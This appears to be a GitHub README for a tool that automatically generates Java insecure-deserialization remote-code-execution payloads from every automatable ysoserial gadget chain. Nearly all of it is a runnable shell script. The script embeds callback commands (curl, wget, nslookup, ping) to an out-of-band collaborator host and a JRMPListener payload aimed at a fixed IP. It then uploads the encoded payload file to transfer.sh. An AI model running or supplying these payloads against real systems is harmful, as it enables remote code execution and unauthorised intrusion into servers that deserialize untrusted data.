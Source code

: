 # java-insecure-deserialization
<p align="center">
  <img width="460" height="300" src="https://github.com/nowak0x01/java-insecure-deserialization/assets/96009982/aaa3a093-5026-4250-8232-f23cab3b10a8">
</p>
This script automatically generates all payloads available in Ysoserial https://github.com/frohoff/ysoserial that lead to Remote code execution (RCE), using Out of Band techniques

Note: Payloads that could not be automated. <i>AspectJWeaver, FileUpload1, JSON1, Jython1</i> and <i>Wicket1</i>
```C
sudo docker run --rm adoptopenjdk/openjdk11 /bin/bash -c '

Collaborator="hufzwo32omf8ss00d9dyayy18sej29qy.oastify.com"
IP="54.77.139.23" # for JRMPListener payload
Encoding="base64 -w0"

export TERM="xterm"
clear
printf "\n\e[1;37m[#]\e[0m Downloading latest ysoserial release \e[1;37m[#]\e[0m\n\n"
curl -LkO https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar && printf "\n\e[1;37m[#]\e[0m Download Completed! \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar >& out
printf "\n\e[1;37m[#]\e[0m Building Payloads (slow) \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar URLDNS "https://URLDNS.$Collaborator/" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
java -jar ysoserial-all.jar C3P0 "https://$Collaborator/:C3P0" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
java -jar ysoserial-all.jar Myfaces2 "https://$Collaborator/:Myfaces2" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
if [ "$IP" != "" ];then
    java -jar ysoserial-all.jar JRMPListener "$IP" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
fi
for _payload in $(cat out | awk "{print \$1}" | grep -vE "^Y$|Usage:|Available|Sep|INFO:|Payload|-------");do
    java -jar ysoserial-all.jar $_payload "curl curl_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "nslookup nslookup_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "wget wget_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "ping ping_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
done
file=$(tr -dc 'A-Z0-9' </dev/urandom | head -c 20)
sort -u payloads.inc > $file
printf "\n\n\e[1;37m[+] The payloads have been uploaded [+]\n"
printf "U can download the file through that link: "; curl -Lsk --upload-file $PWD/$file https://transfer.sh/$file
echo
'
```
